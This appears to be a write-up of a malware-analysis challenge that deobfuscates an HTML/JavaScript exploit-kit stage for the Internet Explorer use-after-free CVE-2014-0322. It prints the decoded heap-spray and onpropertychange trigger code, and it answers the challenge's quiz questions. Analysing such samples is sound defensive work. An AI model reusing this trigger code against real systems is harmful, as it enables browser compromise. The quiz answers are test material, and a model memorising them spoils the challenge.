

## Description
>It's a busy Monday morning at your organization, and the IT security team receives an urgent alert: one of your web servers has been infected with malware. The infected server hosts critical applications and handles sensitive customer data. Upon investigation, the IT team determines that the malware is unknown and potentially sophisticated.
>
>In response, they isolate the infected server and escalate the incident to the malware analysis team for further investigation.

## Investigation

The html file appears to have very little content aside from an obfuscated script:
```html
    <script>
        var hDAVYVhp = function (TRdPNtO) {
            return TRdPNtO['toString'](36)
        };
        var mqQUHDzc = '%66%75%6e%63%74%69%6f%6e%20%65%59%6c%52%66%58%28%64%77%6f%72%64%29%7b%76%61%72%20%64%3d%4e%75%6d%62%65%72<...SNIP...>
        this[hDAVYVhp(693741)](this[hDAVYVhp(2401885046066)](mqQUHDzc));
    </script>
```

Considering this is browser-based html this might be URL encoded. We can decode with cyberchef:



The url decoded output:

```js
function eYlRfX(dword) {
	var d = Number(dword)['toString'](16);
	while (d['length'] < 8) {
		d = '0' + d;
	}
	return unescape('%u' + d['substr'](4, 8) + '%u' + d['substr'](0, 4));
}
var g_arr = [];
var arrLen = 592;
function fun() {
	var a = 0;
	for (a = 0; a < arrLen; ++a) {
		g_arr[a] = document['createElement']('div');
	}
	;
	var b = eYlRfX(3735929054);
	var c = 437985280;
	while (b['length'] < 864) {
		if (b['length'] == 148 / 2) {
			b += eYlRfX(c + 16 - 12);
		} else if (b['length'] == 152 / 2) {
			b += eYlRfX(c + 20 - 8);
		} else if (b['length'] == 172 / 2) {
			b += eYlRfX(c - 16);
		} else if (b['length'] == 348 / 2) {
			b += eYlRfX(1111638594);
		} else {
			b += eYlRfX(437985280 - 16);
		}
	}
	;
	var d = b['substring'](0, (832 - 2) / 2);
	try {
		this['outerHTML'] = this['outerHTML'];
	} catch (e) {
	}
	CollectGarbage();
	for (a = 0; a < arrLen; ++a) {
		g_arr[a]['title'] = d['substring'](0, d['length']);
	}
}
function puIHa3() {
	var a = document['getElementsByTagName']('script');
	var b = a[0];
	b['onpropertychange'] = fun;
	var c = document['createElement']('SELECT');
	c = b['appendChild'](c);
}
document['write']("<embed src='e56d2.swf' width='100px' height='100px'></embed>");
```

Overall the script is quite obfuscated, but we can make general speculations. Function `hDAVYVhp` is taking number inputs and using Base36 transformation. Function `eYlRfX` is appearing to convert number values to hex representation (Base16) while also switching characters 1-4 with 5-8. Function `fun` appears to be decryption for a possible payload, and function `puIHa3` looks to be staging the `fun` script inside HTML script for execution. Lastly, document write at the end appears to be placing an embedding link to a file 'e56d2.swf' which has yet to be found.

## Answers
### 1. What function do you identify as responsible for converting input to a base 36 string?

This is found at the start of the script, function `hDAVYVhp`. We can use base36 to partially decode this:
```js
//  this[hDAVYVhp(693741)](this[hDAVYVhp(2401885046066)](mqQUHDzc));
	eval(unescape(mqQUHDzc));
</script>
```

### 2. What is the name of the function that converts numbers to hexadecimal strings with specific formatting?

This function was also identified previously once the URL decoding has been achieved: `eYlRfX`. Considering static values are being used, we can do partial decoding on `fun` as well.
```js
	var b = '%uc0de%udead';
	var c = 437985280;
	while (b['length'] < 864) {
		if (b['length'] == 148 / 2) {
			b += '%u2004%u1a1b';
		} else if (b['length'] == 152 / 2) {
			b += '%u200c%u1a1b';
		} else if (b['length'] == 172 / 2) {
			b += '%u1ff0%u1a1b';
		} else if (b['length'] == 348 / 2) {
			b += '%u4242%u4242';
		} else {
			b += '%u1ff0%u1a1b';
		}
	}
```

### 3. What is the name of the array that stores developer (div) elements?

There's only 1 array mentioned in the script so this is a pretty simple one to answer: `g_arr`. Not much attention was drawn here but at the end of `fun` is a loop populating the array:
```js
for (a = 0; a < arrLen; ++a) {
	g_arr[a]['title'] = d['substring'](0, d['length']);
}
```

### 4. What is the length of the array storing developer elements in decimal?

The array value is defined in plaintext: `592`
```js
var g_arr = [];
var arrLen = 592;
function fun() {
```

### 5. If JavaScript is disabled in the browser, which endpoint is accessed instead?

In the original file contents, there is a `<noscript>` section following `<script>`, which is refreshing the page to another location:
```js
        this[hDAVYVhp(693741)](this[hDAVYVhp(2401885046066)](mqQUHDzc));
    </script>
    <noscript>
        <meta http-equiv='refresh' content='0;url=../nojs.php' />
    </noscript>
```

This endpoint is the php target, `nojs.php`.

### 6. What is the name of the function responsible for triggering the exploit?

Within the function `puIHa3` we see the important triggering code:

```js
b['onpropertychange'] = fun;
```

The malicious function `fun` is executed on document property change, but then following this function is a document write:
```js
document['write']("<embed src='e56d2.swf' width='100px' height='100px'></embed>");
```

With this `fun` is kicked off, and `puIHa3` is the function responsible for this.
### 7. What is the name of the flash file embedded within the code?

As mentioned just previously, `e56d2.swf` is the embedded flash file.

### 8. What is the CVE Number assigned to this exploit?

We can search for distinctive features such as the flash file name `e56d2.swf`.  I found an interesting [blog page](https://malware.dontneedcoffee.com/2014/03/cve-2014-0322-integrating-exploit-kits.html) that discusses exploit kits using `CVE-2014-0322`. As an added bonus, it looks like this page is where LetsDefend found it's inspiration for the provided file. [Obfuscated FlashPack](http://pastebin.com/BxhPytN3), and [Decoded FlashPack](http://pastebin.com/SKSQBwB7) are available on this page.

## Impact

The CVE describes [a "use-after-free vulnerability" in Microsoft Internet Explorer 9 and 10 that allows RCE involving crafted JavaScript code, CMarkup, and the onpropertychange attribute of a script element](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0322). Despite deobfuscating as much as we are able it is still hard to pinpoint exactly what this malicious payload is achieving. Comparing other resources on this exploit such as the [metasploit entry in exploit-db](https://www.exploit-db.com/exploits/32904) and the [Websense Security Labs Blog](http://web.archive.org/web/20160101212516/http://community.websense.com/blogs/securitylabs/archive/2014/02/13/msie-0-day-exploit-cve-2014-0322-possibly-targeting-french-aerospace-organization.aspx) who were responsible for finding this in the wild, it appears that the RCE payload was not present for our sample. For this challenge we apparently are given a staging payload that prepares to abuse CVE-2014-0322 but has no RCE command present to execute. 
